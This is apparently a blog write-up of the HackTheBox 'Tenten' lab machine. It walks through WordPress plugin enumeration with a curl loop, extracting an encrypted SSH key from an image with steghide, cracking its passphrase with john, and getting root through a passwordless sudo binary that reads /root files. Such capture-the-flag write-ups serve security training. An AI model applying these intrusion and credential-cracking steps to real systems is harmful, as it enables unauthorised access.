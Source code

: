 ```yaml
---
layout: post
title:  "HackTheBox :: Tenten"
date:   2020-1-2 00:10:00 +0000
categories: hackthebox
---
```


# Nmap scan
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ec:f7:9d:38:0c:47:6f:f0:13:0f:b9:3b:d4:d6:e3:11 (RSA)
|   256 cc:fe:2d:e2:7f:ef:4d:41:ae:39:0e:91:ed:7e:9d:e7 (ECDSA)
|_  256 8d:b5:83:18:c0:7c:5d:3d:38:df:4b:e1:a4:82:8a:07 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.7.3
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Job Portal &#8211; Just another WordPress site
Warning: OSScan results may be unreliable
```

# Webapp recon & pwn
Nmap scan leaks wordpress as a title. Wpscan returns a vulnerable plugin = 'job manager' and two users, 'takis' & 'zesk'.
Reading about the vulnerable plugin, it seems we can enumerate the site with the plugin.
We can fuzz this param with a basic bash oneliner.
```
or i in $(seq 1 15); do echo -n " $i "; curl -s http://10.10.10.10/index.php/jobs/apply/$i/ | grep '<title>'; done
 1 <title>Job Application: Hello world! &#8211; Job Portal</title>
 2 <title>Job Application: Sample Page &#8211; Job Portal</title>
 3 <title>Job Application: Auto Draft &#8211; Job Portal</title>
 4 <title>Job Application &#8211; Job Portal</title>
 5 <title>Job Application: Jobs Listing &#8211; Job Portal</title>
 6 <title>Job Application: Job Application &#8211; Job Portal</title>
 7 <title>Job Application: Register &#8211; Job Portal</title>
 8 <title>Job Application: Pen Tester &#8211; Job Portal</title>
 9 <title>Job Application:  &#8211; Job Portal</title>
 10 <title>Job Application: Application &#8211; Job Portal</title>
 11 <title>Job Application: cube &#8211; Job Portal</title>
 12 <title>Job Application: Application &#8211; Job Portal</title>
 13 <title>Job Application: HackerAccessGranted &#8211; Job Portal</title>
 14 <title>Job Application: Application &#8211; Job Portal</title>
 15 <title>Job Application: temp_logo_testing &#8211; Job Portal</title>
```
'hackeraccessgranted' looks interesting, as if someones already pwned the app. Visiting the page shows an image.
We can get the image with wget and start poking steganography techniques at it. Steghide yields something
```
steghide extract -sf HackerAccessGranted.jpg 
Enter passphrase: <blank> 
wrote extracted data to "id_rsa".
```
File we retrieve is a private rsa key which has been encrypted. ssh2john can help us out.
```
ssh2john id_rsa > id.encrypted
root@kali:~/htb/tenten# john id.encrypted --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
superpassword    (id_rsa)
1g 0:00:00:00 DONE (2018-12-12 22:32) 1.123g/s 876444p/s 876444c/s 876444C/s superpassword
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
Chmod 600 the file and login with takis user we found before.

# Gaining root.
Again a sudo check reveals all.
```
takis@tenten:~$ sudo -l
Matching Defaults entries for takis on tenten:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User takis may run the following commands on tenten:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: /bin/fuckin
```
It seems our current user can run the binary 'fuckin' without a password. Looking at the binary, we can see its simply calling bash with root permissions so we can abuse this to read the root file.
```
takis@tenten:/bin$ sudo fuckin id
uid=0(root) gid=0(root) groups=0(root)

takis@tenten:/bin$ sudo fuckin cat /root/root.txt
<redacted>
```

done and dusted.
